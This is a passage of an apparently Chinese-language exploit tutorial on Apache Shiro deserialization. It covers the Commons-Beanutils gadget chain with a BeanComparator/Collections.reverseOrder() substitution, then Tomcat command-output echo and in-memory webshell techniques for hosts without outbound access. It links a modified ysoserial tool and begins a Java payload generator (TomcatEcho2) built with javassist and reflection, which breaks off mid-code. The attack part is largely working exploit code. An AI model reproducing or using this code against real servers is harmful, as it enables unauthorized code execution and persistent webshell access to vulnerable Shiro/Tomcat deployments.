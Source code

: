 ```
        TemplatesImpl.newTransformer()
          TemplatesImpl.getTransletInstance()
            TemplatesImpl.defineTransletClasses()
	  ...  // 创建类实例，触发static代码块
```
然后在P神的知识星球上说还存在一个类`java.util.Collections$ReverseComparator`
![](https://img-blog.csdnimg.cn/c5982fb862c64308a0fc2dd888f9f4ff.png)
利用反射修改`BeanComparator#comparator`属性替换为jre自带类即可，这里是`Collections.reverseOrder()`
```java
BeanComparator comparator=new BeanComparator(null, Collections.reverseOrder());
```

参考：
[Commons-Beanutils利用链分析 ](https://www.cnblogs.com/9eek/p/15123125.html)
[JAVA反序列化对于Shiro的应用](https://ha1c9on.top/?p=1938)
[CommonsBeanutils与无commons-collections的Shiro反序列化利用](https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html)

### shiro回显与内存马
>这里tomcat环境为9.0.43

如果shiro在不出网的情况下，那么我们就无法将dnslog带出，并且反弹不了shell，只能通过延时来确定我们的命令是否执行成功，那么我们就需要获取回显或者写入一个内存马了

#### 回显实现
>思路：
>通过反射修改控制变量，来改变Tomcat处理请求时的流程，使得Tomcat处理请求时便将request,response存入ThreadLocal中，最后在反序列化的时候便可以利用ThreadLocal来取出response

具体可以看下面的参考文章，水平有限就不分析了，大佬们分析的很详细，直接看文末大佬文章吧Orz
工具：[https://github.com/Litch1-v/ysoserial](https://github.com/Litch1-v/ysoserial)
这里我们同样使用javassit，然后加载回显代码：[https://github.com/Litch1-v/ysoserial/blob/master/src/main/java/ysoserial/payloads/util/Gadgets.java](https://github.com/Litch1-v/ysoserial/blob/master/src/main/java/ysoserial/payloads/util/Gadgets.java)
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Collections;
import java.util.PriorityQueue;

public class TomcatEcho2 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("TomcatEcho2");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        String template = "try {\n" +
                "            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField(\"context\");\n" +
                "            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField(\"service\");\n" +
                "            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField(\"req\");\n" +
```